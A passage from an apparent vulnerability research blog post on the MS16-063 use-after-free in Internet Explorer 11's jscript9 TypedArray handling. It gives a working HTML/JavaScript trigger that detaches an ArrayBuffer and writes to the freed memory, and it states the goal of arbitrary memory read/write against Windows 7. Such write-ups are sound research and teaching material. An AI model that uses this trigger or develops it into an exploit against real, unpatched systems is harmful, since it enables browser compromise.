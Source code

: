 ```cpp
         return JavascriptNumber::ToVar(typedBuffer[index], GetScriptContext());
    }
    return GetLibrary()->GetUndefined();
}
```

After this latest path, `jscript9` also has check for a detached buffer in both `DataView` and `TypedArray`.


### Trigger PoC

Triggering the bug is quite simple:

  1. Create a `TypedArray` -- we can choose any type, but we'll use `Int8Array` here.
  2. Detach the `ArrayBuffer` that is backing the `Int8Array` from step 1 -- this frees the buffer.
  3. Access _free'd_ buffer by getting or setting items using `Int8Array` view.

```html
<html>
  <body>
    <script>
      function pwn() {
        var ab = new ArrayBuffer(1000 * 1024);
        var ia = new Int8Array(ab);
        detach(ab);
        setTimeout(main, 50, ia);

        function detach(ab) {
          postMessage("", "*", [ab]);
        }

        function main(ia) {
          ia[100] = 0x41414141;
        }
      }
      setTimeout(pwn, 50);
    </script>
  </body>
</html>
```

Yay, crash!

<img src="{{ site.url }}/images/2016-06-27/poc_crash.png" style="display: block; margin: auto; border: 1px solid #ccc">

Specifically, with our example, it crashes while trying to write data at _FREE_ memory (i.e. `ia[100]` now points to _FREE_ memory). For a successful exploit, we want to allocate objects that we create and control their metadata to give us more powerful primitives: aribtrary memory read and write.


### Exploit

In this blog post, we are going to test and develop our exploit on Windows 7. Specifically, we will target the Internet Explorer 11 on Windows 7 from [modern.ie][modern-ie]{:target="_blank"} -- because the image they give out doesn't have this update, it is still vulnerable.


[ms16-063]: https://technet.microsoft.com/en-us/library/security/ms16-063.aspx
[vbscript-post]: https://github.com/theori-io/cve-2016-0189
[typed-array]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Typed_arrays
[chakra]: https://github.com/Microsoft/ChakraCore/blob/master/lib/Runtime/Library/TypedArray.h#L238
[initial-commit]: https://github.com/Microsoft/ChakraCore/blob/5d8406741f8c60e7bf0a06e4fb71a5cf7a6458dc/lib/Runtime/Library/TypedArray.h#L226
[modern-ie]: https://developer.microsoft.com/en-us/microsoft-edge/
[lfh]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa366750%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396
[theori-github]: https://github.com/theori-io/jscript9-typedarray
[vmmap]: https://technet.microsoft.com/en-us/sysinternals/vmmap.aspx?f=255&MSPPError=-2147217396